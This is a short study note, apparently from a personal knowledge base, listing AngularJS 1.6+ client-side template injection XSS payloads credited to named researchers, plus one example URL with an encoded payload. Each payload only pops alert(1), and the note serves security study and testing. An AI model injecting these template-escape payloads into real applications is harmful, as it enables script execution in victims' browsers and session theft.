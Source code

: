 ```yaml
---
id: XSS
created_date: 18/10/2022
updated_date: 18/10/2022
type: note
---
```


# XSS
- **🏷️Tags** :  #10-2022 - #XSS #Security #AngularJS #ClientSideTemplateInjection #WebSecurity

## 📝 Notes
# XSS in Angular and AngularJS

## Client Side Template Injection


The following payloads are based on Client Side Template Injection.

### Stored/Reflected XSS - Simple Alert in AngularJS

> AngularJS as of version 1.6 have removed the sandbox altogether


AngularJS 1.6+ by [Mario Heiderich](https://twitter.com/cure53berlin)

```javascript

{{constructor.constructor('alert(1)')()}}

```

  
---
AngularJS 1.6+ by [@brutelogic](https://twitter.com/brutelogic/status/1031534746084491265)

```javascript

{{[].pop.constructor&#40'alert\u00281\u0029'&#41&#40&#41}}

```
Example available at [https://brutelogic.com.br/xss.php](https://brutelogic.com.br/xss.php?a=<brute+ng-app>%7B%7B[].pop.constructor%26%2340%27alert%5Cu00281%5Cu0029%27%26%2341%26%2340%26%2341%7D%7D)

  
---
AngularJS 1.6.0 by [@LewisArdern](https://twitter.com/LewisArdern/status/1055887619618471938) & [@garethheyes](https://twitter.com/garethheyes/status/1055884215131213830)

```javascript

{{0[a='constructor'][a]('alert(1)')()}}

{{$eval.constructor('alert(1)')()}}

{{$on.constructor('alert(1)')()}}

```
